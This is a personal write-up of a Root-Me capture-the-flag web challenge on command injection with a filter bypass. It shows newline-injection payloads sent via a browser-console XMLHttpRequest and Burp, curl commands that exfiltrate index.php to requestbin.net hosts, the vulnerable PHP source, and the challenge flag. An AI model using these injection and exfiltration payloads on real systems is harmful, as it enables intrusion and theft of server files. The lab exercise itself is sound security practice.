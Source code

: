 # Command injection - Filter bypass(Front end Filter can be checked in web dev tool, and bypassed by j

Reference: https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/Using\_XMLHttpRequest

Initial Page:&#x20;

Statement

Find a vulnerability in this service and exploit it. Some protections were added.

The flag is on the index.php file.

At first I sent 1.1.1.1; (In web dev tool to check. since burp is proxy thus not showing the modified input)

so I sent "; ls

so I sent "ls"

when I sent ""

""""

meaning:

backslash was added to my input.

but after a bit of research, I found that there is no way I can bypass this filter without using javascript

\->

bypass the input filter by javascript on the dev tool's console:

```
client = new XMLHttpRequest();
client.open('POST', 'http://challenge01.root-me.org/web-serveur/ch53/', true);
client.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
client.send('ip=127.0.0.1%0a')
```

* using carriage return character. But when I tried to enter this in the input field it is sanitized.

Using this: https://requestbin.net/

g6hrxfqq0bbe9kty.b.requestbin.net

then modify the above codelet like this

client.send('ip=127.0.0.1%0acurl --data-urlencode "ip@index.php" g6hrxfqq0bbe9kty.b.requestbin.net');

(here ip is set already. Format: curl --data-urlencode "host@file" serverToReceive)

ip: Comma@nd\_1nJec7ion\_Fl@9\_1337\_Th3\_G@m3!!!

***

Actually you can just check the filter in the web dev tool and then use burp

```
POST /web-serveur/ch53/index.php HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Origin: http://challenge01.root-me.org
Connection: close
Referer: http://challenge01.root-me.org/web-serveur/ch53/index.php
Cookie: _ga_SRYSKX09J7=GS1.1.1662358763.49.1.1662359774.0.0.0; _ga=GA1.1.536088429.1661133467; PHPSESSID-APACHE2RCE=dk4prr41kcupilkagb5d6po38i
Upgrade-Insecure-Requests: 1

ip=127.0.0.1§test§
```

capture the request and then add this iterator

use metacharacters to fuzz, then you can see %0a can be used to bypass filter.

then after that

make requestbin.net

`ip=127.0.0.1%0acurl+-X+POST+-F+file%3d%40index.php+yej0o5wu44e1gf8u.b.requestbin.net`

curl -X POST -F file=@index.php yej0o5wu44e1gf8u.b.requestbin.net

:

curl -X POST -F file=@index.php yej0o5wu44e1gf8u.b.requestbin.net

transfer a URL

\-X, --request (HTTP) Specifies a custom request method to use when communicating with the HTTP server. The specified request will be used instead of the method otherwise used (which defaults to GET). Read the HTTP 1.1 specification for details and explanations. Common additional HTTP requests include PUT and DELETE, but related technologies like WebDAV offers PROPFIND, COPY, MOVE and more.

```
   (FTP) Specifies a custom FTP command to use instead of LIST when doing file lists with FTP.

   If this option is used several times, the last one will be used.
```

\-F, --form \<name=content> (HTTP) This lets curl emulate a filled-in form in which a user has pressed the submit button. This causes curl to POST data using the Content-Type multipart/form-data according to RFC 2388. This enables uploading of binary files etc. To force the 'content' part to be a file, prefix the file name with an @ sign. To just get the content part from a file, prefix the file name with the symbol <. The difference between @ and < is then that @ makes a file get attached in the post as a file upload, while the < makes a text field and just get the contents for that text field from a file.

`b'--------------------------0ce912bc5033004d\r\nContent-Disposition: form-data; name="file"; filename="index.php"\r\nContent-Type: application/octet-stream\r\n\r\n<html>\n<head>\n<title>Ping Service</title>\n</head>\n<body>\n<form method="POST" action="index.php">\n <input type="text" name="ip" placeholder="127.0.0.1">\n <input type="submit">\n</form>\n<pre>\n<?php \n$flag = "".file_get_contents(".passwd")."";\n\nif(isset($_POST["ip"]) && !empty($_POST["ip"])){\n $ip = @preg_replace("/[\\\\\\$|`;&<>]/", "", $\_POST\["ip"]);\n\t//$ip = @str\_replace(\['\\\\', '$', '|', '`\', \';\', \'&\', \'<\', \'>\'], "", $_POST["ip"]);\n $response = @shell_exec("timeout 5 bash -c \'ping -c 3 ".$ip."\'");\n $receive = @preg_match("/3 packets transmitted, (.*) received/s",$response,$out);\n\n if ($out[1]=="3") \n {\n echo "Ping OK";\n }\n elseif ($out[1]=="0")\n {\n echo "Ping NOK";\n }\n else\n {\n echo "Syntax Error";\n }\n}\n?>\n</pre>\n</body>\n</html>\n\n\r\n--------------------------0ce912bc5033004d--\r\n'`

string replacement can be observed.
